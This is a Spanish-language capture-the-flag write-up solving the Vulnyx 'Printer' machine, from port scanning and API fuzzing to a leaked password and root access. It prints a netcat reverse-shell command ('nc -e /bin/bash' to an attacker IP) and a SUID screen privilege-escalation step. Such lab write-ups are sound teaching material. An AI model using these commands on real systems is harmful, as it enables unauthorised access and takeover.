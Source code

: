 ```yaml
---
layout      : post
title       : "Printer - Vulnyx"
author      : elc4br4
image       : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
optimized_image : /assets/images/VULNYX/Printer-Vulnyx/Printer.jpg
category    : [ Vulnyx ]
tags        : [ Linux, Vulnyx ]
description : En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx.
---
```


🎩En esta ocasión vamos a resolver la máquina nivel Easy Printer de la plataforma Vulnyx🎩.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
4. [Escalada de Privilegios](#privesc). 

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Como siempre comenzamos realizando un reconocimiento de puertos abiertos para ver por donde podemos empezar a atacar y ver que tenemos en cada puerto.

Para realizar este reconocimiento usaré la herramienta nmap.

```r
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9999/tcp open  abyss
```

Podemos ver que tenemos los siguientes puertos abiertos, 22 (ssh), 80 (http) y 9999 (abyss).

Pero necesito saber algo más de información sobre estos puertos... por lo que lanzaré de nuevo nmap con otros parámetros para lanzar una serie de scripts de enumeración que me ayuden a obtener más información sobre estos puertos abiertos.

![](/assets/images/VULNYX/Printer-Vulnyx/nmap.png)

Ahora ye podemos ver algo más...

En el puerto 80 tenemos un simple servidor Apache... pero lo más curioso está en el puerto 9999, parece que hay una especie de login... por lo que intento conectarme para ver que hay.

A través de netcat me conecto a este puerto y veo que hay un login, pero se me pide una contraseña que no tengo... por lo que toca buscarla.

![](/assets/images/VULNYX/Printer-Vulnyx/nc1.webp)

Continúo enumerando el puerto 80 (http) donde tenemos un servidor Apache.

Tras acceder no encontré nada útil por lo que decidí fuzzear para buscar rutas dentro del servidor.

Comenzaré usando wfuzz.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz1.webp)

Encuentro la ruta `api` por lo que sigo fuzzeando.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz2.webp)

Accedo a la ruta `api/printers` y encuentro lo siguiente.

> "Search for your printer with the following format: printerid.ext"

Tras ver esto ya se que he de hacer, continuar fuzzeando.

Debemos descubrir un número (el id) y su extensión... y para ello usamos de nuevo wfuzz.

Tras probar y probar descubrí que la extensión era .json, por lo que generando un rango de números del 1 a 9999 puedo descubrir el id.

![](/assets/images/VULNYX/Printer-Vulnyx/wfuzz3.webp)

Y tras ir probando 1 a 1 cada `id` descubro esto.

![](/assets/images/VULNYX/Printer-Vulnyx/json.webp)

Encontramos una contraseña...

> "$3cUr3Pr1nT3RP4ZZw0rD"

# Explotación [#](explotación) {#explotación}

Tras obtener la contraseña pruebo a utilizarla para conectarme al puerto 9999.

![](/assets/images/VULNYX/Printer-Vulnyx/nc2.webp)

Tras acceder ejecuto el comando `?` para que me muestre la ayuda para ver todos los parámetros que puedo ejecutar y veo que con el comando exec puedo ejecutar comandos en la misma máquina.

```bash
> exec whoami
printer
> exec id
uid=1000(printer) gid=1000(printer) grupos=1000(printer)
```

Por lo que lo aprovecho para introducir una reverse shell en netcat y ganar acceso a la máquina.

```bash
> exec nc -e /bin/bash 192.168.0.32 4444
```

Y gano acceso a la máquina por fin!

![](/assets/images/VULNYX/Printer-Vulnyx/nc3.webp)

Tras acceder ya puedo leer la flag de usuario y proceder al siguiente paso... escalar privielegios.

# Escalada de Privilegios [#](Escalada de Privilegios) {#privesc}

Primero enumero archivos con permisos 4000.

```bash
printer@printer:/var/spool/lpd$ find / -perm -4000 2>/dev/null
find / -perm -4000 2>/dev/null
/usr/bin/mount
/usr/bin/su
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/umount
/usr/bin/passwd
/usr/bin/newgrp
/usr/bin/screen
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

```bash
printer@printer:/var/spool/lpd$ ls -la /usr/bin/screen
ls -la /usr/bin/screen
-rwsr-xr-x 1 root root 482312 feb 27  2021 /usr/bin/screen
```

Y veo que el binario screen puede servirme para escalar privilegios.

Y es muy sencillo, con screen podemos hacer un attach con el parámetro -x a una sesión o pantalla digamos, que en este caso sería la de root.

De la siguiente forma:

```bash
screen -x root/
```

Y ya nos habremos convertido en root.

![](/assets/images/VULNYX/Printer-Vulnyx/root.webp)



